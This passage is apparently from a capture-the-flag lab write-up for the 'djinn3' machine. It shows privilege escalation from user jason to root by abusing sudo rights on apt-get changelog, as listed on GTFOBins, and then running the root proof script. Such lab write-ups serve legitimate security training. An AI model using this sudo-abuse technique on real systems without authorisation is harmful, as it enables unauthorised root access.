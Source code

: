 ```markdown
```
---
### Privilege escalation (jason -> root)
Checking on [GTFOBins](https://gtfobins.github.io/gtfobins/apt-get/#sudo) reveals that we can take advantage of this to elevate our privileges:
```markdown
jason@djinn3:/home/saint$ sudo apt-get changelog apt
Get:1 https://changelogs.ubuntu.com apt 1.6.12ubuntu0.1 Changelog [449 kB]
Fetched 449 kB in 1s (708 kB/s)
root@djinn3:/home/saint# id
uid=0(root) gid=0(root) groups=0(root)
```
---
### Root flag
Let’s get the root flag:
```markdown
root@djinn3:/home/saint# cd /root
root@djinn3:/root# ls -la
total 40
drwx------  6 root root 4096 Jun  4 21:51 .
drwxr-xr-x 23 root root 4096 Jun  1 17:17 ..
lrwxrwxrwx  1 root root    9 May 17 17:33 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  3 root root 4096 May 10 02:57 .cache
drwx------  3 root root 4096 May 10 02:09 .gnupg
drwxr-xr-x  3 root root 4096 May 11 02:48 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rwxr-xr-x  1 root root  695 Jun  4 18:01 proof.sh
-rw-r--r--  1 root root   66 Jun  1 20:45 .selected_editor
drwx------  2 root root 4096 Jun  1 20:08 .ssh
root@djinn3:/root# ./proof.sh 

    _                        _             _ _ _ 
   / \   _ __ ___   __ _ ___(_)_ __   __ _| | | |
  / _ \ | '_ ` _ \ / _` |_  / | '_ \ / _` | | | |
 / ___ \| | | | | | (_| |/ /| | | | | (_| |_|_|_|
/_/   \_\_| |_| |_|\__,_/___|_|_| |_|\__, (_|_|_)
                                     |___/       
djinn-3 pwned...
__________________________________________________________________________

Proof: VGhhbmsgeW91IGZvciB0cnlpbmcgZGppbm4zID0K
Path: /root
Date: Sun Sep 27 21:47:16 IST 2020
Whoami: root
__________________________________________________________________________
```